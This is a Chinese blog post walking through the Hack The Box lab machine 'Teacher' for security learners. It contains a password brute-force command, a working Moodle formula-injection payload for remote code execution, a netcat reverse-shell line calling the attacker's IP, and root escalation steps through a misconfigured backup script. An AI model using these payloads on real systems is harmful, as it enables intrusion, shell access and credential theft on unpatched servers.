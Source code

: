 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/W4nHWlfxHR47gLFYzayhQg)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **144** 篇文章，本公众号会每日分享攻防渗透技术给大家。

  

  

  

靶机地址：https://www.hackthebox.eu/home/machines/profile/165

靶机难度：中级（5.0/10）

靶机发布日期：2019 年 4 月 21 日

靶机描述：

Teacher is a "medium" difficulty machine, which teaches techniques for identifying and exploiting logical flaws and vulnerabilities of outdated modules within popular CMS (in this instance Moodle), enumeration of sensitive information within the backend database and leverage misconfigurations on the operating system, which lead to a complete compromise of a system.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/aUOT8MibumibTezJtREQ7iabtA23O9WAFku4Bian1vXLOpxwIk705rqQvxdoBr6uT5hxFc9wq6XibJS5FjKdbsBC1dg/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uCUMQNqoTR023MgBQF6euL3oTLJDQNxbQslmIpf3j0pILibl0spZ8cibg/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.153...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uEcUbfZZ0zMKrLDpdlruYP5BNvTDpDtvT04Lj2R6hDpK9p5xrLDjsZA/640?wx_fmt=png)

nmap 仅发现开放了 80 端口...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1ufyDZ0EmuiahdSsVS3cTb151OgaWibkHYlPEE2jsemiaSxmJKIaYu8BGzw/640?wx_fmt=png)

进入了 Blackhat highschool 页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1ukM0xdtvylnxRBZCibOxTQqsJ67VbibzeIP3TN8abibz8dZmicHCrIBXlAQ/640?wx_fmt=png)

检查 Gallery 模块发现了一些老师的人脸图片...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uwgvaoTKDYkNAAjE2icxnacVDv4vkL12J4EotQ4IQenHnZxnOiaMs9rQA/640?wx_fmt=png)

检查前端源码，发现了 5.png 的属性为 That's an F... 下载下来看看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uHzmLCKN7dzIOnaVibsdO9y6UQvo2UFj6p87ayyK9Wl1IdY7CU2TFpSw/640?wx_fmt=png)

下载后，发现了这是一段话，这里获得了用户名和密码提示... 说 Th4C00lTheacha 密码缺少最后一位字符...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uVGvUrMfib0vn2CnYuGWtTSSm2M2mvSbrkEDTYgVrJ7MHQLU41YiczX5Q/640?wx_fmt=png)

```
sudo crunch 15 15 -t Th4C00lTheacha^ -o passwd.txt
```

利用 crunch 来组合最后一个字符的字典文本...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uTz5jxyF6zppADN2FvpTVsa45fV4l5jdXQNw6dT5iccNX8Ab9iaEicm8nQ/640?wx_fmt=png)

有了用户名和密码本，需要找到登陆用户页面...

在爆破目录中发现了 moddle 页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1u351HAXQNHp3INafm0Sq0TicIWIMCYq2zQHkT2Xaq3ibwjG6HgGfcBbhQ/640?wx_fmt=png)

该页面正好是我需要的登陆页面... 开始爆破密码即可

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uS2QKc3zbQB9EfeB2wBqsAlnX75gKIuqIFpwrkNMzmcqgjBCh10sCnA/640?wx_fmt=png)

```
wfuzz -c -u http://10.10.10.153/moodle/login/index.php -d 'username=Giovanni&password=FUZZ' -w passwd.txt --hh 440
```

利用 hadry 或者 Wfuzz 模糊查找正确密码即可... 获得了正确的密码

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1ubhWL80icWXf9B2ZgEaFj3IZ6HknrXlicbNx10QQEibvpUic52hpvibWOdLQ/640?wx_fmt=png)

成功登陆.. 处于 Giovanni 权限管理页面中，这是 moodle 的框架页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1u48icwcricb5FS4CcibIRCre9ibXEIBNruDMgIS3y1hc7yZeQDibo1xNKmlw/640?wx_fmt=png)

```
https://blog.ripstech.com/2018/moodle-remote-code-execution/
```

google 搜索了 moodle exploit 发现了一些漏洞和利用文章... 这里提示了如何提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uSY2oKoOktSXn4m0Os6yTS4qbDuownnV2eVknT0C7vMWToXqZlRNgKQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1ug5baFt9kEqkoUiaFvkY2Ds8KTdjQ3LaAdSM7qEaoYF6GzA9yY1KtZLw/640?wx_fmt=png)

打开编辑...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1u1JgSuPib6ndAeZrEf7YHwTmZiaWEsOFniapeuMTKe9ztbsvxpOlSkUvFQ/640?wx_fmt=png)

创建课程...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1u6gAhiagowWibLGvtbticBic4eu14icfDslqaXLfyBVqb4jaHYAZlAgHbicRw/640?wx_fmt=png)

填写课程信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uZoAfKfWk9datleEZPliaDUlJLRyq213FYRQKB55XywepBRITkukrxcg/640?wx_fmt=png)

保存...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uWcQjFIeoIMPrdfLXXzJnoj3nI8qD85yjoLHgml8RcA5X1xt5ZvibdyA/640?wx_fmt=png)

点击 edit quiz...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uBianGicKT7BoXpA11BkRwic1icDBr69NYjJz9RoF9Gf7wBBmF2nxUK0aKA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1ugKRDZCx2BUjVpmwKHD7Mo6FPfTcEmsDJv8UWqSvxEnNWlxh1LqVU3A/640?wx_fmt=png)

选择问题类型 Calculated...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uMicjf05mV2QOe3uWC3PCMYHHglqwZRHBia0e5knaMhAE4RUKnmy3a7FQ/640?wx_fmt=png)

继续补充信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uwiblX82fSXrqus7hetw8UNJibfic5FIUzy0LkAibzvX4Ou0jGZelibQic8xQ/640?wx_fmt=png)

这里填写的是答案的公式... 根据前面文章的提示，填写

```
`/*{x}{a*/`$_GET[0]`/*(1)//}{a*/`$_GET[0]`/*({x})//}*/`
```

意思是通过代码将 url 的参数传递出系统命令为 0，然后可以写入任意的 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uW4cicSKTYFeRapiaia16sr3obQJUoicicI7hvUnbTbPGMiaic4zqbssdyELOA/640?wx_fmt=png)

点击 Next Page 进入易受攻击的页面...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1ubhX6TmMvibf3VSCfPP63RsmXib4VKXw4pZuibKUO5YY2aLfAxPh1iaPjOA/640?wx_fmt=png)

```
&0=(nc -e /bin/sh 10.10.14.51 6666)
```

写入简单 shell 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1umtxS1GMqvBDTAibiamhYsa8CzEcO0Jtia2u8BclhZ3yXvnlPp8SSNkWDg/640?wx_fmt=png)

开启监听，获得了反向外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uJcGWiaZib4x07mhibcA4gHJI50YcAsDKKgY1Rb93jCCyIGeT1C3PmHryQ/640?wx_fmt=png)

枚举了一会，发现了数据库的用户名和密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1u4esopX4ggz6uWVkgia7gZYZOKA4FreYxSe9jZsVzUBzPfaXFGRIDZ1Q/640?wx_fmt=png)

登陆数据库，查找 moodle 库的信息，看能找到对应的用户名和密码吗...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uppsUAtdhY9CLly0MafN1ZGINMaib5JsheeiaLEC08HFibwgF24RD0fhKg/640?wx_fmt=png)

找到了四个用户名和密码...

前三个密码都无法破解...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1u63c0OwnbBZWJLWY3ygwU6Htus0XJ4ricO2rg60rzddB01uiakOwukNsA/640?wx_fmt=png)

giovanni 的密码为 md5 值... 获得了 expelled 密码信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uxjo2Eq32hqtt2knXmyXadqMHrrlCa5Mj2Nr4f1FLOlElPh4Sv9yo7Q/640?wx_fmt=png)

su 获得了 giovanni 权限外壳... 读取到了 user_flag 信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uibXib8KiaeGdsnpbhftFOloXNKhibtiaFlvmnPG6pnr1apBoMzrnetibVoqA/640?wx_fmt=png)

上传了 LinEnum 枚举靶机，没发现可利用的地方...

查看进程发现，backup.sh 脚本以 root 权限执行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1uBReAeb8pvr4N7VDySol2Yeehgzof9uBE2wAjtG7mnZ7A7hIM1HHUkg/640?wx_fmt=png)

这里最主要的是，脚本 backup 可更改当前目录... 然后赋予 777 权限...

意思是用户以 root 权限为标准，可以读取，写入和执行任何文件到 / home/giovanni/work/tmp 中...

那这里思路挺多的，快速获得 flag，只需要把 root 目录赋予到 tmp 即可查看..

想要获取 root 权限，只需要将 / etc 的 passwd 的密码值赋予权限，并修改就能获得权限...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPm0PDgCxtYdCoDxr6Xwn1u9f2Gd2uKmWrS7MVDLUAhhbdGgkTHmoj5Sy2LSq8UmtrkwBd9DXy2dg/640?wx_fmt=png)

最近快速过靶机，直接获 root_flag 信息...

  

  

  

我反思了下，最近的文章都是一句话解答，很简单的就带过了一些技术和工具，没有去过多的解释，甚至有些命令也没有写到文章中，但是在图片中都会显示出来... 因为感觉变简单了，没耐心详细解答了，希望小伙伴看到后面的文章，能耐心的 google 或者百度不会的工具或者技术问题，实在解答不了的，直接加本人微信，有问必答... 加油

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/aUOT8MibumibTezJtREQ7iabtA23O9WAFku4Bian1vXLOpxwIk705rqQvxdoBr6uT5hxFc9wq6XibJS5FjKdbsBC1dg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)